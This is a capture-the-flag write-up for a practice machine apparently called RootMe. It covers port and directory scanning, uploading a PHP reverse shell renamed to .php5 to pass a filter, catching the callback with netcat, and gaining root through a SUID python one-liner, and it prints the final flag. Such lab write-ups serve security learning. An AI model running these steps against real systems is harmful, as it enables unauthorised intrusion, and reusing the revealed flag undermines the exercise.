








<div style="display: flex; justify-content: center; align-items: center;">
  
</div>

## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.238.95
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 00:14 WEST
Nmap scan report for 10.10.238.95
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports Open:
- 22: SSH
- 80: HTTP

Apache version is 2.4.29

### Gobuster

``` bash
$ gobuster dir --url 10.10.238.95 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.95
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/28 00:17:11 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.238.95/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.238.95/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.238.95/panel/]
/server-status        (Status: 403) [Size: 277]                                 
/uploads              (Status: 301) [Size: 314] [--> http://10.10.238.95/uploads/]
                                                                                  
===============================================================
2023/10/28 00:17:50 Finished
===============================================================
```

Important directories:
/uploads and /panel

### HTTP Page

Page running on port 80:


The /panel directory allows us to upload files



## Foothold

### Upload RevShell
I tried uploading a php reverse shell, but it does not allow php


I changed the extension from .php to .php5 and it worked

``` bash
$ mv php-reverse-shell.php php-reverse-shell.php5
```


The file is now in the uploads directory


### Getting a shell

Now we just have to setup a netcat listener and open the file to get a shell
``` bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.132.243] from (UNKNOWN) [10.10.238.95] 60070
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:28:36 up 17 min,  0 users,  load average: 0.00, 0.23, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### user.txt flag

We now have a shell
Next we search for the user flag

``` bash
$ find / -name user.txt 2> /dev/null
/var/www/user.txt
```
We can now get the user flag



## PrivEsc

### SUID

To escalate our privileges, we can search for files that have root SUID permissions

``` bash
$ find / -user root -perm /4000
```

We can run python as root

We can find what code to run to escalate our privileges in [GTFOBins](https://gtfobins.github.io/gtfobins/python/)

``` bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

### root.txt flag

Now we just grab the root.txt flag

``` bash
$ cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
